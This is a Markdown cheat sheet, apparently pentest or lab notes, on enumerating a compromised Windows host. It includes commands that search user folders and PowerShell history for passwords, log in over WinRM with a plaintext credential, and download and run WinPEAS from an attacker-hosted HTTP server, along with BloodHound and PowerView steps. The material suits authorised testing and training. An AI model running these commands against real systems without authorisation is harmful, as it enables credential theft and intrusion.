 # Windows Enumeration Manual and Automated methodolgy

## Initial Access

### Enter Another User Context Using `runas`
```powershell
runas /user:domain\username cmd
```

## File Enumeration

### List Specific File Types in All User Directories
```powershell
Get-ChildItem -Path C:\Users -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

### List Specific File Types for a Specific User
```powershell
Get-ChildItem -Path C:\Users\malek -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

### List All .txt Files Recursively
```powershell
Get-ChildItem -Filter *.txt -Recurse
```

### Read a Specific File
```powershell
type C:\xampp\passwords.txt
```

## History and Network Configuration

### Check PowerShell History
```powershell
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Enumerate Network Configuration
```powershell
Write-Output "=== Network Configuration ==="
Get-NetIPAddress
Get-NetAdapter
Get-DnsClient
Get-NetRoute
```

## User Accounts and Groups

### List User Accounts
```powershell
Write-Output "`n=== User Accounts ==="
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember -Group "Administrators"
net user steve
```

## Installed Software

### Enumerate Installed Software
```powershell
Write-Output "`n=== Installed Software ==="
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*" | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
Get-WmiObject -Class Win32_Product | Select-Object Name, Version, Vendor, InstallDate
```

## Services and Processes

### Enumerate Running Services and Processes
```powershell
Write-Output "`n=== Running Services ==="
Get-Service | Where-Object {$_.Status -eq 'Running'}
Get-Process
```

## Network Connections and Scheduled Tasks

### List Active Network Connections
```powershell
Write-Output "`n=== Active Network Connections ==="
Get-NetTCPConnection
```

### Enumerate Scheduled Tasks
```powershell
Write-Output "`n=== Scheduled Tasks ==="
Get-ScheduledTask
```

## File Shares and Firewall Configuration

### Enumerate File Shares
```powershell
Write-Output "`n=== File Shares ==="
Get-SmbShare
```

### Enumerate Firewall Configuration
```powershell
Write-Output "`n=== Firewall Configuration ==="
Get-NetFirewallRule
Get-NetFirewallProfile
```

## System Information

### Gather System Information
```powershell
Write-Output "`n=== System Information ==="
Get-ComputerInfo
systeminfo
```

## XAMPP and SQL Injection Enumeration

### Read XAMPP MySQL Configuration
```powershell
type C:\xampp\mysql\bin\my.ini
```

## Creating and Using Credentials Object

### Create a Credentials Object
```powershell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

## Entering User via WinRM

### Access a User via WinRM
```powershell
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!”
```

## Checking for DPAPI

### Initial Reconnaissance
- Nmap Scan: `nmap -p- <target>`
- Enum4linux: `enum4linux <target>`
- SMBMap: `smbmap -H <target>`

### WinPEAS Enumeration
```powershell
# Setting up WinPEAS via local server
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe | Select-String -Pattern "Master"
```

### SharpHound Enumeration
```powershell
git clone https://github.com/BloodHoundAD/SharpHound3.git
.\SharpHound3\SharpHound.exe -c all
```

### BloodHound Analysis
- Transfer data to BloodHound server.
- Analyze data using BloodHound web interface.

### PowerView Enumeration
```powershell
git clone https://github.com/PowerShellMafia/PowerSploit.git
Import-Module .\PowerSploit\Reconnaissance\PowerView.ps1
```

### Windows Exploit Suggester
```powershell
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --database <database file> --systeminfo <systeminfo file>
```
```

This readme provides a detailed and organized approach to manually and automatically enumerate a Windows system, covering all essential aspects for a thorough analysis.
